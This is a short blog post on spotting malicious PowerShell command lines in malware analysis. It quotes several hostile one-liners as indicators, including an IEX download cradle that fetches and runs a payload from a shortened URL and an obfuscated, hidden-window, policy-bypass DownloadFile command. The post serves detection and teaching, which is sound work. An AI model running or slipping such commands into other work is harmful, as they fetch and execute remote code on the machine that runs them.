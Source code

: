 ```yaml
---
layout: post
title:  "Powershell: Understanding the complexity behind it"
image: ''
date:   2020-05-11 00:06:00
tags: [Powershell,Fileless]
description: 'Understanding Powershell in malware analysis'
categories: [Note]
---
```


PowerShell attacks are currently the popular weapon of alternative for several of those attacks as a result of it provides variety of techniques for bypassing existing security. Not least of all, the flexibility to run directly in memory and remotely download payloads gave a lot of benefits to attacker.

Let's learn a little bit about Powershell malicious command line.

# Download
```
powershell -nop -noe -Command IEX (New-Object System.Net.WebClient).DownloadString('https://tinyurl.com/y5nupk4e')
```
Powershell command that are use to download "something" can be consider as a high potentially of a malicious attack. The command above indicate that the command is run to download strings (payload) at URL `https://tinyurl.com/y5nupk4e`. A goodware will never do such a thing to download their file using powershell command.

# Lower and upper case letters
```
Powershell -ExecUTIONPoLICy BypASs -wiNDoWSTYLe hidDeN(NEW-objecT.SYstEM.NET.wEbCLIeNt).DOWnLoADFiLE(<removed>);
```
This pattern of powershell is using alternating lower and upper case letters to execute their command. It's a high potentially of a malicious command when it come with this pattern.

# Using short flags

```
Powershell -nop -w hidden -e <encoded text>
Powershell -nop -w hidden -e <ps1 file>
```
Sometimes, this pattern of command uses by goodwares to does their job backgroundly. If the command included a long encoded text, I can 100% sure that those command is a malicious. Legit software will never use encoded text to execute it's job.

For `.ps1` part, recognizing the location of the ps1 file and its name can help us to determine it's a malicious or not. If you can get the hash of the `.ps1`, drop it into Google/Virustotal/Sandbox to futher investigation.
